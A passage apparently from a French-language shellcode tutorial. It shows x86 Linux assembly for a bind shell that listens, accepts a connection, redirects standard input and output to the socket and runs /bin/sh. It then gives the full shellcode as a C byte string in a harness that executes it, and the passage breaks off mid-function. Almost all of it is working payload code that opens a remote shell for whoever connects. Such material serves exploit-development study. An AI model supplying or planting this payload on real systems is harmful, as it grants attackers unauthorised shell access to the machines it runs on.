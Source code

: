 ```c
	mov [ecx+0x4], eax	; we use the stack (ebx is still in the stack and ecx+4 will set to 0)
	mov bl, 0x4		; syscall listen
	mov al, 0x66		
	mov ecx, esp
	int 0x80		; make the syscall socketcall(listen(sockfd,0))

	; Accept

	mov [ecx+0x8], eax	; we use the stack to put the second 0
	mov bl, 0x5		; syscall accept
	mov al, 0x66	
	mov ecx, esp
	int 0x80		; make the syscall socketcall(accept(sockfd,0,0))


	; Redirect stdin, stdout and stderr

	xchg ebx, eax		; we save eax

	xor ecx, ecx
	mov cl, 0x2		; ecx = 2
_:
	mov al, 0x3f		; syscall dup2
	int 0x80
	dec ecx
	jns _

	; execute the shell /bin/sh

	xor ecx,ecx		; ecx = 0
	mul ecx			; eax = edx =ecx = 0
	push eax		; push 0 onto the stack
	push 0x68732f2f		; push //bin/sh
	push 0x6e69622f
	mov ebx, esp		; save esp into ebx
	mov al, 0xb		
	int 0x80		; make the syscall execve("/bin/sh", NULL, NULL)


```

## Compilation ## 

Le code est ensuite compilé :

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x5b\x5e\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\xb0\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\x89\xe1\xcd\x80\x89\x41\x08\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\xf7\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main()
 {
 
         printf("taille %d\n", strlen(code));
 
         int (*ret)() = (int(*)())code;
 
```